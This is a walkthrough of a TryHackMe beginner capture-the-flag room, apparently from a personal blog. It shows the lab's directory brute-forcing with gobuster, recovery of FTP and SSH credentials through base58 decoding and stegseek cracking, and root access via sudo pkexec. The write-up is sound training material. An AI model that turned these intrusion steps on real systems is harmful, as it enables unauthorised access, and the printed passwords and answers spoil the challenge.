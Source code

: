 ```yaml
---
layout: post
title: Walkthrough - Lian_Yu
published: true
---
```


Welcome to Lian_YU, this Arrowverse themed beginner CTF box!

Challenge/Gobuster/Steganography/Priv-Esc

[https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

* * *

## What is the Web Directory you found?

- ``gobuster dir -u http://10.10.251.212/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php -t 100 --no-error``

* * *

## what is the file name you found?

- Looking at the source code of ``/island/2100/`` give us a posslbe clue... ``you can avail your .ticket here but how?``
- we also have another clue ``vigilante`` from ``view-source:http://10.10.251.212/island/``
- running ``gobuster dir -u http://10.10.251.212/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -t 100 --no-error`` can find ``/green_arrow.ticket``

```shell
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```

* * *

## what is the FTP Password?

- decode from base58 to get the password ``!#th3h00d`` which we can then login to ftp with username ``vigilante``

* * *

## what is the file name with SSH password?

- login to ftp with the credentials and ``mget *``
- ``stegseek aa.jpg /usr/share/wordlists/rockyou.txt``
- ``7z x aa.jpg.out``
- ``cat shado`` we get ``M3tahuman``
- ``cd ..`` in the ftp we get another user ``slade`` that we should be able to login to ssh with.

* * *

## user.txt

- ``cat user.txt``

* * *

## root.txt

```shell
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- ``sudo pkexec /bin/sh``
- ``cat /root/root.txt``



* * * 